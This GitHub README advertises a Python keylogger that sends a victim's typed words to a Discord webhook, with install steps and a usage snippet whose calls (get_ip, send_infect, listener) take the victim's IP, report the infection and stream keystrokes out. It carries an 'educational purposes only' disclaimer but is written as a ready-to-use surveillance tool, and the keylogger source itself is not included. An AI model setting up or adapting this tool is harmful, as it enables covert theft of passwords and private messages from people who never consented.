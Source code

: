 <p align='center'>
  <b>Follow me here:</b><br>  
  <a href="https://discord.gg/gzEvEC4wXh">Discord</a> |
  <a href="https://www.youtube.com/channel/UCdIuioH8MzwMD88XGkliupA">YouTube</a> |
  <a href="https://github.com/KanekiX2">Github</a>
  <a href="https://twitter.com/Kaneki_Web">Twitter</a>
</p>

--- 

**FR:** A but educatif seulement.  
**EN:** For educational purposes only.  

![](https://home.sophos.com/en-us/medialibrary/Microsites/Home/SecurityCenter/what-is-a-keylogger.jpg)
# Keylogger  
**FR** : Kaneki Keylogger est un simple key logger écrit en python qui envoie les mots à chaque touche espace où entrer presser, Proposer à but éducatif.  
**EN** : Kaneki Keylogger is a simple keylogger written in python that sends the words to each key space to enter press, Suggest for educational purpose.  


## 💻 Features
- Send the words type to a discord webhook
- Send the words at each space to avoid a ratelimit

## 🛠 Insallation & Usage
### Installation
```bash
git clone https://github.com/KanekiX2/KeyLogger
cd KeyLogger
pip install -r requirements.txt
```
### Usage
```py
from Keylogger import Inject

Injector = Inject(hook="YOUR WEBHOOK LINK")
Injector.get_ip()
Injector.send_infect()
Injector.listener()
```


## 📷 Demo
![](https://cdn.discordapp.com/attachments/809886609717329920/835762012650209300/unknown.png)

##  📝 Contact
Mail : _kaneki_pro@protonmail.com_ <br>
Discord : `Kaneki#8888`


## 📚 Contributions
All suggestions are welcome.

### 📜 License
Keylogger is under licensed MIT [MIT License](https://github.com/KanekiX2/KeyLogger/blob/master/LICENSE).

[![forthebadge made-with-python](http://ForTheBadge.com/images/badges/made-with-python.svg)](https://www.python.org/)
[![GPLv3 license](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://perso.crans.org/besson/LICENSE.html)
[![Open Source Love svg1](https://badges.frapsoft.com/os/v1/open-source.svg?v=103)](https://github.com/ellerbrock/open-source-badges/)
